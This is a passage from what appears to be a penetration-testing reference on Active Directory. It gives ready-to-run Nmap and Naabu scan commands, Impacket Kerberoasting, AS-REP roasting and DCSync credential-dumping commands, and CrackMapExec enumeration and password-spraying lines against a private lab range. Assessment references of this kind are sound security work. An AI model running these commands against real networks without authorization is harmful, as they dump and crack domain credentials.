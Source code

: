 ## 12. Tools & Techniques Reference

### 12.1 Reconnaissance Tools

**Nmap:**
```bash
# TCP SYN Scan
nmap -sS -sV -sC -O 192.168.20.0/24

# UDP Scan
nmap -sU --top-ports 1000 192.168.20.0/24

# Specific service scans
nmap --script ldap-* 192.168.20.10-12
nmap --script smb-* 192.168.20.0/24
nmap --script ms-sql-* 192.168.20.22-23
```

**Naabu (Faster Port Scanner):**
```bash
# AD-specific ports
naabu -list targets.txt -p 53,88,135,139,389,445,636,1433,3268,3269,3389,5985,5986

# Top ports with threading
naabu -list targets.txt -top-ports 1000 -rate 1000 -c 25
```

### 12.2 Active Directory Tools

**Impacket Suite:**
```bash
# Kerberoasting
GetUserSPNs.py domain/user:pass -dc-ip DC_IP -outputfile kerberoast.txt

# AS-REP Roasting
GetNPUsers.py domain/ -dc-ip DC_IP -usersfile users.txt -outputfile asrep.txt

# DCSync
secretsdump.py domain/user:pass@DC_IP
```

**CrackMapExec:**
```bash
# SMB enumeration
crackmapexec smb 192.168.20.0/24 --shares
crackmapexec smb 192.168.20.0/24 --users
crackmapexec smb 192.168.20.0/24 --groups

# Password spraying
crackmapexec smb 192.168.20.0/24 -u users.txt -p passwords.txt --continue-on-success
```

### 12.3 Vulnerability Scanning
